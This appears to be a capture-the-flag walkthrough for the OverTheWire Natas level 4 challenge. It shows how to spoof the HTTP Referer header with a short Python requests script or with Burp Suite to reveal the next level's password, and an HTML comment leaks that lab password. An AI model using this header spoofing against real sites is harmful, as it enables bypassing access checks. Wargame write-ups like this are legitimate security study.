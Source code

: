 To move forward, we need to log into the next level using the credentials obtained from the previous level.

Upon logging in, we are greeted with the following screen:
![untitled](ScreenShots/Level%203%20->%204.jpg)

---
**What is `Referer` according to HTTP headers?**  
The `Referer` HTTP header indicates the address of the previous web page from which a link to the currently requested page was followed.  

This can be verified from several sources:
- Referring from [mdn web docs_](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer#)
- Also from [Geeksforgeeks](https://www.geeksforgeeks.org/http-headers-referer/)
- Getting information from [Wikipedia](https://en.wikipedia.org/wiki/HTTP_referer)
---
Examining the code behind the reload button, we find the following HTML snippet:
```html
<div id="viewsource"><a href="index.php">Refresh page</a></div>
```

Upon clicking this button, the following transition happens:
![untitled](ScreenShots/Level%203%20->%204%20(Index.php).jpg)
as well as this change in the URL:
```php
http://natas4.natas.labs.overthewire.org/index.php
```

We then delve into the network activity for deeper insights.
![untitled](ScreenShots/Level%203%20->%204%20(Network).jpg)

Here, we can see that the referer is from natas4, but according to the description, it should be from natas5. Let's try changing it.
There are two ways to do that:
1. Using Python:
    ```py
    import requests
    url = "http://natas4.natas.labs.overthewire.org/"
    user = "natas4"
    password = "REDACTED"
    referer = "http://natas5.natas.labs.overthewire.org/"

    r = requests.get(url, auth=(user, password), headers={'referer': referer})
    print(r.text)
    ```
2. Burp Suite:
    <!-- 
    We can modify the request using Burp Suite. This is my first time using Burp Suite, so let's walk through the process:
    - Target Tab: Open the browser from the Target tab.
    - Input URL: Enter the URL to monitor traffic in Burp.
    - Login: Use the provided credentials to log in.
    - Proxy Tab: Navigate to the Proxy tab to see the network requests.
    -->
    Let's change the `Referer` from `natas4` to `natas5` and observe the outcome.  
    ![untitled](ScreenShots/Level%203%20->%204%20(Burp%20Suite).jpg)
    
After making this change, we receive the password for the next level.

With this, we can log into the next level using the following credentials:
```
URL: http://natas5.natas.labs.overthewire.org
Username: natas5
Password: Password found by changing the referer
```
<!-- Password: `Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD` -->